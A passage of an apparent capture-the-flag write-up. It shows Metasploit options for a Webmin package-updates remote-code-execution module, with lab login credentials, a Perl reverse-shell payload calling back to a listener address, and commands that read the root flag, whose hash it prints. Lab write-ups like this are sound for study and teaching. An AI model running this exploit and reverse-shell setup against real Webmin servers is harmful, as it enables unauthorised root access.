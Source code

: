 ## Metasploit
Got root via metasploit  make sure the `ssl` is set to `true`
```bash
sf6 exploit(linux/http/webmin_package_updates_rce) > options

Module options (exploit/linux/http/webmin_package_updates_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   computer2008     no        Password to login with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.129.2.1       yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit
                                         /basics/using-metasploit.html
   RPORT      10000            yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path to Webmin
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME   Matt             yes       User to login with
   VHOST                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address o
                                       n the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.16.8       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix In-Memory



View the full module info with the info, or info -d command.

```

### root flag
```bash
cd ls -la /root
cat /root/root.txt
```
`47ddaaa1621955d26a50fdc3fed647e0`